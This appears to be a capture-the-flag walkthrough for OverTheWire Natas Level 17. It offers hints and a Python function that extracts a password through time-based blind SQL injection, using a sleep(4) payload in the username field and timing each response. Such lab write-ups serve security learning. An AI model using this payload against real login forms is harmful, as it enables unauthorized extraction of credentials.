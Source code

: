 ## Level 17 ##

Hint 1:
How else can you get a binary indicator? (ie, that the query succeeded or failed)

Hint 2:
Look up blind SQL injection

Hint 3:
Insert a statement that, if the previous leg of the and statement is true, will delay the response from coming back

Same as Level 15 - don't forget to `import timeit`.

{% highlight python %}
    def tryit(pw):
      print('trying %s' % pw)
      post_data = {'username' : 'natas18" and password like binary "%s%%" and sleep(4) and "1"="1' % pw}
      data = urllib.parse.urlencode(post_data)
      binary_data = data.encode('ascii')
      req = urllib.request.Request(url, binary_data)
      t_start = timeit.default_timer()
      response = urllib.request.urlopen(req)
      the_page = response.read()
      t_end = timeit.default_timer()
      return t_end - t_start > 3
{% endhighlight %}

